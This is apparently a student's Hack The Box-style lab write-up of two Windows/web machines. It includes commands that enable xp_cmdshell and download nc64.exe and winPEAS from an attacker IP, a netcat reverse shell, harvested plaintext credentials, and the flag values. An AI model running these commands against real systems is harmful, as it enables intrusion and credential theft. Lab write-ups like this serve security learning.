


## Task 1

### 🛠️The process of solving task1

1. Use nmap to scan the target machine:
   
   ```bash
   nmap -p- -sC -sV 10.129.10.155
   ```

   After scanning the machine ,  we found open ports: SMB (445) and MS-SQL (1433).

2. We connect to SMB share using know credentials:
   
   ```bash
   smbclient //10.129.10.155/backups -U 'ARCHETYPE/sql_svc'
   ```
   And it log in successfully and listed all the files.

3. We download and read the config file by using command 'GET' and 'CAT'

    ```bash
   get prod.dtsConfig
   cat prod.dtsConfig
   ```

   After download the file and check the file, i fould MS-SQL login credentials: sql_svc : M3g4c0rp123.

4. Log in to the MS-SQL server using impacket:

    ```bash
    # python 3 : use python 3 to run the progess
    # impacket-env/bin/mssqlclient.py: use to connect the Microsoft SQL server
    # -windows-auth : to log in SQL server by using Windows
    # ARCHETYPE/sql_svc:M3g4c0rp123: sql_sve is the account , M3g4c0rp123 is the password
    # @10.129.10.155: the IP address
    
   python3 impacket-env/bin/mssqlclient.py -windows-auth ARCHETYPE/sql_svc:M3g4c0rp123@10.129.10.155
   ```

5. Enable command execution via xp_cmdshell

   ```bash
   # access to advancedd configuration options in SQL server
   EXEC sp_configure 'show advanced options', 1;

   #applies the change we just made
   RECONFIGURE;

   #enables the xp_cmdshell feature, let run Windows system commands
   EXEC sp_configure 'xp_cmdshell', 1;

   #applies the new setting
   RECONFIGURE;
   ```

   We do this is to command the execution from the database, after running the command we will have a way to control the operating system.

6. Create two different terminal: We put payload in terminal 1 , and put netcat in terminal 2.

   For terminal 1:
   
   ```bash
   # -m : run Python's built-in HTTP server module, which will turns the current directory into a web server that servers files over HTTP
   sudo python3 -m http.server 80
   ```

   For terminal 2:

   ```bash
   # nc: Netcat to read form and writing to network connection
   # -l: listen mode
   # -v: Verbose, to show detailed output
   # -n : Don't resolve DNS , avoid delays by skipping hostname lookup
   # -p 443: port 443 (use for HTTPS)
   sudo nc -lvnp 443
    

7.  Download and execute reverse shell payload from the target:
    
    ```bash
    # xp_cmdshell: SQL server feature that lets you run the system command from SQL.
    # powershell -c Invoke-WebRequest: run PowerShe;; to download a file from a URL
    # -Uri http://10.10.14.60/nc64.exe: attacker IP
    # -OutFile: Save the downloaded file to the target machine.
    xp_cmdshell "powershell -c Invoke-WebRequest -Uri http://10.10.14.60/nc64.exe -OutFile    C:\\Users\\sql_svc\\Downloads\\nc64.exe"

    # -e cmd.exe : Tells Netcat to spawn a command prompt and send its I/O through the connection
    # 10.10.14.60.443: attacker IP

    xp_cmdshell "C:\\Users\\sql_svc\\Downloads\\nc64.exe -e cmd.exe 10.10.14.60 443"
    ```

8. Receive reverse shell and read the user flag:

    ```bash
   cd C:\Users\sql_svc\Desktop
   type user.txt
   ```

   In this part we can get the user flag: 3e7b102e78218e935bf3f4951fec21a3

   


9. Now, we need to get the root flag:

   Use WinPEAS to enumerate for privillege escalation:

    ```bash
    
   Invoke-WebRequest -Uri http://10.10.14.60/winPEASx64.exe -OutFile winPEASx64.exe .\winPEASx64.exe
    
   ```

   It shows the PowerShell history path.

10. Read PowerShell history to extract admin credentials.
    
    ```bash
    type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
    ```

      We got the password,
   
      ```bash
      
      $secpasswd = ConvertTo-SecureString 'MEGACORP_4dm1n!!' -AsPlainText -Force
      
      ```
   
11.  Login as Administrator

        We use impacket pasexec.py:

        ```bash
     
        python3 /usr/share/doc/python3-impacket/examples/psexec.py administrator@10.129.10.155
        
        ```

     or use the Evil-WinRm:

       ```bash
       
       evil-winrm -i 10.129.10.155 -u Administrator -p 'MEGACORP_4dm1n!!'
       
       ```

       After this, we can read the root flag:

       ```bash
    
       cd C:\Users\Administrator\Desktop
       type root.txt
        
       ```
    
       get the root flag: b91ccec3305e98240082d4474b848528.

      

## Task 2

### 🛠️The process of solving task2

1. First, I tried to open the main page at http://10.129.95.191 (target machine:    10.129.95.191), but it returned a blank or inaccessible page.

   To discover any hidden or unlisted directories on the server, I used Gobuster with a common wordlist:
   
   ```bash
   gobuster dir -u http://10.129.95.191 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
    ```

   After using the buster, i found a hidden path:

   ```bash
   /cdn-cgi/login/
    ```
2. Therefore, i tried the login page by using http://10.129.95.191/cdn-cgi/login/.

   Can log in the page successfully.

   

   
   
   


     
    
